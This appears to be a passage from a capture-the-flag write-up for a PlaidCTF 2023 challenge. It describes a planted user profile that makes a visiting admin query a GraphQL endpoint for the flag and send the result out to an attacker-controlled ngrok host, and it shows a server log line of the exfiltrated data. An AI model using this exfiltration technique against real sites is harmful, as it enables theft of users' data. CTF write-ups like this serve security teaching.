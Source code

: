 When someone visit our user profile, it'll send a request to GrahpQL endpoint, which should returns the flag if the user is admin. Finally, exfiltrate the flag to our controlled environment.

![](https://github.com/siunam321/CTF-Writeups/blob/main/PlaidCTF-2023/images/Pasted%20image%2020230415223944.png)

```
client_1    | 172.21.0.1 - - [15/Apr/2023:14:39:23 +0000] "GET /?d={%22errors%22:[{%22message%22:%22Not%20logged%20in%22,%22locations%22:[{%22line%22:1,%22column%22:12}],%22path%22:[%22flag%22],%22extensions%22:{%22code%22:%22INTERNAL_SERVER_ERROR%22}}],%22data%22:{%22flag%22:null}} HTTP/1.1" 200 366 "https://987a-{Redacted}.ngrok-free.app/user/bd349a2a-5040-433e-be47-d1b5a84edb2f" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0" "{Redacted}"
```

Nice!

**Now, we need to send our user profile URL to the `report` GrahpQL endpoint!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/PlaidCTF-2023/images/Pasted%20image%2020230415224101.png)
